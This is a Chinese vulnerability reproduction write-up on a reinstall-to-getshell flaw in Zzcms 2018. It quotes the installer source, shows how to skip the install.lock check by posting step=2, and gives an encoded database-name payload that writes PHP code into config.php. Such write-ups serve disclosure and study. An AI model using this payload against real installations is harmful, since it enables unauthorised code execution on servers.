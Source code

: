# Zzcms 2018 最新版重装getshell

### 一、漏洞简介

源码信息：Zzcms 2018

问题文件： \zzcms\install\index.php

漏洞类型：重装getshell

站点地址：http://www.zzcms.net/

### 二、漏洞影响

Zzcms2018

### 三、复现过程

0x01攻击分析

在文件\ zzcms \ install \ index.php文件的第9-10行中$ _POST使用了提取变量注册的方法进行变量的初始化。


```php
if($_POST) extract($_POST, EXTR_SKIP);//把数组中的键名直接注册为了变量。就像把$_POST[ai]直接注册为了$ai。
if($_GET) extract($_GET, EXTR_SKIP);
$submit = isset($_POST['submit']) ? true : false;
$step = isset($_POST['step']) ? $_POST['step'] : 1;
```

分析代码可以知道，setp为空的时候，初始化初始化的变量1，然后进入到step_1.php，有install.lock，就不能重装，所以我们这里直接POST step = 2绕过


```php
<?php
switch($step) {
        case '1'://协议
                include 'step_'.$step.'.php';
        break;
        case '2'://环境
                $pass = true;
                $PHP_VERSION = PHP_VERSION;
                if(version_compare($PHP_VERSION, '4.3.0', '<')) {
                        $php_pass = $pass = false;
                } else {
                        $php_pass = true;
                }
                $PHP_MYSQL = '';
                if (extension_loaded('mysqli') || extension_loaded('mysql')) {
                        $PHP_MYSQL = '支持';
                        $mysql_pass = true;
                } else {
                        $PHP_MYSQL = '不支持';
                        $mysql_pass = $pass = false;
                }
        $PHP_GD = '';
        if(function_exists('imagejpeg')) $PHP_GD .= 'jpg';
        if(function_exists('imagegif')) $PHP_GD .= ' gif';
        if(function_exists('imagepng')) $PHP_GD .= ' png';
                if($PHP_GD) {
                        $gd_pass = true;
                } else {
                        $gd_pass = false;
                }
                $PHP_URL = @get_cfg_var("allow_url_fopen");//是否支持远程URL，采集有用
                $url_pass = $PHP_URL ? true : false;
                include 'step_'.$step.'.php';
        break;
        case '3'://查目录属性
                include 'step_'.$step.'.php';
        break;
        case '4'://建数据库
                include 'step_'.$step.'.php';
        break;
        case '5'://安装进度
                function dexit($msg) {
                        echo '<script>alert("'.$msg.'");window.history.back();</script>';
                        exit;
                }
                
                $conn=connect($db_host,$db_user,$db_pass,'',$db_port);
                if(!$conn) dexit('无法连接到数据库服务器，请检查配置');
                $db_name or dexit('请填写数据库名');
                if(!select_db($db_name)) {
                        if(!query("CREATE DATABASE $db_name")) dexit('指定的数据库不存在\n\n系统尝试创建失败，请通过其他方式建立数据库');
                }
                $url=str_replace("'",'',$url);
                //保存配置文件
                $fp="../inc/config.php";
                $f = fopen($fp,'r');
                $str = fread($f,filesize($fp));
                fclose($f);
                $str=str_replace("define('sqlhost','".sqlhost."')","define('sqlhost','$db_host')",$str) ;
                $str=str_replace("define('sqlport','".sqlport."')","define('sqlport','$db_port')",$str) ;
                $str=str_replace("define('sqldb','".sqldb."')","define('sqldb','$db_name')",$str) ;
                $str=str_replace("define('sqluser','".sqluser."')","define('sqluser','$db_user')",$str) ;
                $str=str_replace("define('sqlpwd','".sqlpwd."')","define('sqlpwd','$db_pass')",$str) ;
                $str=str_replace("define('siteurl','".siteurl."')","define('siteurl','$url')",$str) ;
                $str=str_replace("define('logourl','".logourl."')","define('logourl','$url/image/logo.png')",$str) ;
                $f=fopen($fp,"w+");//fopen()的其它开关请参看相关函数
                fputs($f,$str);//把替换后的内容写入文件
                fclose($f);
                //创建数据
                include 'step_'.$step.'.php';
                break;
        case '6'://安装成功
                include 'step_'.$step.'.php';
        break;
}
```

![](images/15896914489161.png)



```php
<?php
if(@$step==3){
$token = md5(uniqid(rand(), true));    
$_SESSION['token']= $token; 
?>
```

step_3.php文件中有一个创建的令牌，后面创建数据库的时候验证，所以从步骤= 2，一步一步偶。

从上面的代码文中知道$ url = str_replace（“'”，“，$ url）; 把单引号替换为空了，然后的fputs写INC / config.php的配置文件中所以这里通过$ DB_NAME来写到配置文件。

#### 0×02复漏洞现

在数据库配置页面，数据库名填写：

`zzcms%27%29%3bphpinfo%28%29%3b%2f%2f` 本机创建zzcms');phpinfo();//的数据库

![](images/15896914721079.png)


因为本地有JS验证，所以先把数据库名改成123，bp抓到包以后在修改成zzcms%27%29%3bphpinfo%28%29%3b%2f%2f

![](images/15896915119914.png)


成功写入到配置文件

![](images/15896915199956.png)


![](images/15896915237045.png)


![](images/15896915275342.png)


